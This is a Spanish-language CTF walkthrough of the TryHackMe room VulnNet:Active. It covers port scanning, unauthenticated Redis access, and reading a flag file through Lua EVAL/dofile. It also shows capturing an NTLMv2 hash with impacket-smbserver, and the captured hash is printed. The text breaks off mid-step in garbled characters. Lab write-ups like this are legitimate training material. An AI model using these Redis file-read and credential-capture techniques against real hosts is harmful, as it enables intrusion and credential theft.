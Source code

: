 ## TryHackMe  <> VulnNet:Active

![image](https://github.com/Esevka/CTF/assets/139042999/c8b2b883-92a5-4ef7-9caf-9ef5029519b8)

Enlace Maquina: https://tryhackme.com/room/vulnnetactive

Enunciado : 

  - Obtener acceso completo al sistema y comprometer dominio.
  - Conseguir Flags
---

## Escaneo de puertos (NMAP).

-Buscamos puertos abiertos en en la maquina victima.

    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/VulnNetActive/nmap]
    └─# nmap -p- -open -sS --min-rate 5000 -n -Pn -vvv 10.10.12.222 -oG open_ports                                                                              
    Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-20 06:32 CEST
    
    PORT      STATE SERVICE      REASON
    53/tcp    open  domain       syn-ack ttl 127
    135/tcp   open  msrpc        syn-ack ttl 127
    139/tcp   open  netbios-ssn  syn-ack ttl 127
    445/tcp   open  microsoft-ds syn-ack ttl 127
    464/tcp   open  kpasswd5     syn-ack ttl 127
    6379/tcp  open  redis        syn-ack ttl 127
    9389/tcp  open  adws         syn-ack ttl 127
    49665/tcp open  unknown      syn-ack ttl 127
    49668/tcp open  unknown      syn-ack ttl 127
    49669/tcp open  unknown      syn-ack ttl 127
    49670/tcp open  unknown      syn-ack ttl 127
    49684/tcp open  unknown      syn-ack ttl 127
    49698/tcp open  unknown      syn-ack ttl 127

  -Extraemos los puertos de la captura anterior para lanzarles unos scripts basicos de reconocimiento.

  Utilizamos un Script en bash simple pero de gran ayuda. Script-->  https://github.com/Esevka/CTF/tree/main/Bash

    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/VulnNetActive/nmap]
    └─# list_port open_ports              
    
    [+]Puertos Disponibles --> (Copiados en el Clipboard)
    
    53,135,139,445,464,6379,9389,49665,49668,49669,49670,49684,49698


  -Lanzamos scripts basicos de reconocimiento sobre los puertos abiertos.

    ┌──(root㉿kali)-[/home/…/ctf/try_ctf/VulnNetActive/nmap]
    └─# nmap -p 53,135,139,445,464,6379,9389,49665,49668,49669,49670,49684,49698 -sCV -n -Pn 10.10.12.222 -vvv -oN info_ports
    
    PORT      STATE SERVICE       REASON          VERSION
    53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
    135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds? syn-ack ttl 127
    464/tcp   open  kpasswd5?     syn-ack ttl 127
    6379/tcp  open  redis         syn-ack ttl 127 Redis key-value store 2.8.2402
    9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
    49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49669/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
    49670/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49684/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    49698/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
---
## Analizamos la informacion obtenida sobre los puertos.

La informacion obtenida sobre los puertos es un poco escueta, pero aun asi hay un puerto que llama la atencion.

--Puerto 6379 (Redis)

      Que es Redis?
      
      Redis es una base de datos en memoria de código abierto y un almacén de datos de tipo clave-valor.
      
      Esto significa que los ejemplos de uso de Redis no se parecerán a las tablas de una base de datos relacional típica,
      sino que se centrarán en cómo almacenar y recuperar datos utilizando claves.
  
      Redis es eficiente en la gestión de datos clave-valor y es especialmente útil para almacenar datos temporales, configuraciones, caché 
      y en situaciones donde se requiere alta velocidad y baja latencia.

  Info--> Redis Pentesting[+] https://exploit-notes.hdks.org/exploit/database/redis-pentesting/
  
  1)  Conectamos a la BD sin credenciales a ver si podemos obtener algo.

          ┌──(root㉿kali)-[/home/…/ctf/try_ctf/VulnNetActive/nmap]
          └─# redis-cli -h 10.10.12.222
          10.10.12.222:6379> 

  2)  Listamos el número de claves que continenen las bases de datos, no hay nada.
    
          10.10.12.222:6379[3]> info keyspace
          # Keyspace

  3)  Listamos todas las configuraciones y sus valores actuales.
  
          102) "no"
          103) "dir"
          104) "C:\\Users\\enterprise-security\\Downloads\\Redis-x64-2.8.2402"  ---> INTERESANTE
          105) "maxmemory-policy"
      
        De la linea 104 deducimos que --> enterprise-security <-- es un usuario local del sistema, por lo que ya tenemos un usuario del sistema.
      
          Info: Redis mediante el comando EVAL nos permite ejecutar scripts en Lua los cuales deben ser pasados como cadena(String).

  4)  Sabiendo esto podriamos leer la flag de usuario.(La ip cambia hemos tenido que reiniciar la maquina.)

          10.10.240.193:6379> Eval "dofile('C:\\\\Users\\\\enterprise-security\\\\Desktop\\\\user.txt')" 0
          (error) ERR Error running script (call to f_ce5d85ea1418770097e56c1b605053114cc3ff2e): @user_script:1: C:\Users\enterprise-security\Desktop\user.txt:1: malformed number near 
          '3eb176aee96---------0bc93580b291e'

  5)  Capturamos el Hash NTLM del usuario --> enterprise-security

      Este proceso lo podemos hacer montandonos nuestro servidor SMB con impacket-smbserver o utilizando la herramienta Responder.

          La unción principal de Responder es realizar ataques de captura de credenciales en redes locales.
          Responder se utiliza para interceptar y robar las credenciales de autenticación enviadas a través de protocolos como
          NTLMv1/v2, SMB, HTTP, FTP y otros, en un entorno de red local.

      - impacket-smbserver
    
          Montamos nuestro servidor smb

            ┌──(root㉿kali)-[/home/…/Desktop/ctf/try_ctf/VulnNetActive]
            └─# impacket-smbserver -smb2support  share content
            Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation
            
            [*] Config file parsed
            [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
            [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
            [*] Config file parsed
            [*] Config file parsed
            [*] Config file parsed
            [*] Incoming connection (10.10.106.15,49749)
            [*] AUTHENTICATE_MESSAGE (VULNNET\enterprise-security,VULNNET-BC3TCK1)
            [*] User VULNNET-BC3TCK1\enterprise-security authenticated successfully
            [*] enterprise-security::VULNNET:aaaaaaaaaaaaaaaa:48c1b2b4604ce440ed0e015a35ba0637:010100000000000000f0b4343204da019aad366cd8e34abd0000000001001000410062006a00640070007a006d00690003001000410062006a00640070007a006d0069000200100053005900530070004e004b004e0064000400100053005900530070004e004b004e0064000700080000f0b4343204da010600040002000000080030003000000000000000000000000030000033f377f1305a0c67c0f262ac98c1eefa29e74e04022ecd4c19842247eb7caafa0a001000000000000000000000000000000000000900200063006900660073002f00310030002e0039002e00390032002e003100350031000000000000000000
            [*] Closing down connection (10.10.106.15,49749)
            [*] Remaining connections []

          Ejecutamos `4f`c  xa 


        
    
  



    


    
    




  






  

  


